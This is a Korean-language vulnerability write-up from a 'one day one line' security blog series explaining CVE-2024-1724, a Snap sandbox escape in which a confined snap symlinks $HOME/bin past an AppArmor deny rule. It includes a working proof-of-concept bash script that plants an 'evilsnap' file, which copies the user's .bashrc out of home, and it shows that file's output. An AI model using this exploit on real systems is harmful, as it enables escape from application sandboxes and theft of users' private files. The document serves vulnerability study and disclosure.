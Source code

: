 ```yaml
---
title: "[하루한줄] CVE-2024-1724 : Snap의 Symbolic Link 경로 미제한로 인한 Sandbox Escape 취약점"
author: j0ker
tags: [snap, sandbox escape, symbolic link]
categories: [1day1line]
date: 2024-07-06 23:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

- [Explaining CVE-2024-1724](https://gld.mcphail.uk/posts/explaining-cve-2024-1724/)

## Target

- snap before aa191f9 commit

## Explain

Snap은 패키지 관리자로 스토어에서 소프트웨어를 다운받아 설치할 수 있는 프로그램입니다. Snap 패키지는 샌드박스 안에서 실행되고 AppArmor, seccomp 등에 의해 리소스 접근에 제한을 받습니다. Snap은 사용자의 홈 디렉터리에 대한 읽기 및 쓰기 권한을 위해 home 권한을 요청할 수도 있지만 .ssh 등 파일에 접근하는 것을 예방하기 위해 닷파일과 닷 디렉터리에는 접근이 제한됩니다.

사용자가 우분투에 로그인하면 `$HOME/.profile`을 실행합니다.

```bash
# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/bin" ] ; then
    PATH="$HOME/bin:$PATH"
fi
```

새로 설치할 때는 `$HOME/bin` 디렉터리가 존재하지 않지만 사용자가 디렉터리를 만들면 로그인할 때 `$PATH` 앞에 추가됩니다.

하지만 Snap에서는 AppArmor를 통해 `bin` 폴데에 접근하는 것을 제한합니다.

```bash
audit deny @{HOME}/bin/{,**} wl,
```

`$HOME/bin` 디렉터리를 만들거나 하드링크나 마운트 등 방법으로 해당 링크를 만들 경우 해당 디렉토리 내 리소스에 접근하는 것을 제한하지만, `$HOME/bin`을 Snap 리소스를 가리키는 심볼릭 링크로 만들 경우, 이에 대한 리소스 접근을 제한하지 않습니다.

따라서 Snap 리소스를 가리키는 `$HOME/bin` 심볼릭 링크를 생성하고 유저가 로그인을 하면 `bin` 폴더 내 파일에 접근할 수 있습니다.

```bash
#! /bin/bash

FILE=".bashrc"

if [ ! -d "$SNAP_REAL_HOME/bin" ]; then
        mkdir -p "$SNAP_REAL_HOME/bintmp" // -p 부모 부모 디렉터리 함께 생성
        cat << EOF > "$SNAP_REAL_HOME/bintmp/evilsnap" 
#! /bin/bash
cp ~/$FILE ~/snap/evilsnap/current/
snap run evilsnap
EOF
        chmod +x "$SNAP_REAL_HOME/bintmp/evilsnap"
        ln -s "$SNAP_REAL_HOME/bintmp/" "$SNAP_REAL_HOME/bin"
fi
```

위와 같이 `bintmp` 폴더를 생성하고 아래 `evilsnap` 파일을 생성하고 실행 권한을 부여해 준 다음, 심볼릭 링크로 `bintmp` 폴더를 가리키는 `bin` 폴더를 생성해 줍니다. 유저가 새로 로그인하면 `bin` 폴더에 접근이 가능하고 파일을 실행할 수 있습니다.

```bash
$ which evilsnap
/home/theuser/bin/evilsnap
$ evilsnap
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

# If not running interactively, don't do anything
case $- in
    *i*) ;;
      *) return;;
esac

... snip ...
```